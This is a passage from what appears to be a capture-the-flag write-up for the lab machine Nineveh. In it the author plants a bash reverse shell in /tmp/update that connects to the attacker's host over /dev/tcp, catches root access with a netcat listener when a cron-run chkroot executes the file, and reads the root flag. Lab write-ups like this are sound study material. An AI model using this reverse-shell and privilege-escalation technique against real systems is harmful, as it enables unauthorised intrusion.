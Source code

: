 I'll write a simple reverse shell to `/tmp/update` and make it
executable:



    amrois@nineveh:/tmp$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.24/443 0>&1'
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.24/443 0>&1
    amrois@nineveh:/tmp$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.24/443 0>&1' > update
    amrois@nineveh:/tmp$ chmod +x update



The next time `chkroot` runs, I get a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.43.
    Ncat: Connection from 10.10.10.43:44006.
    bash: cannot set terminal process group (11510): Inappropriate ioctl for device
    bash: no job control in this shell
    root@nineveh:~#



And I can grab the flag:



    root@nineveh:~# cat root.txt
    8a2b4956************************







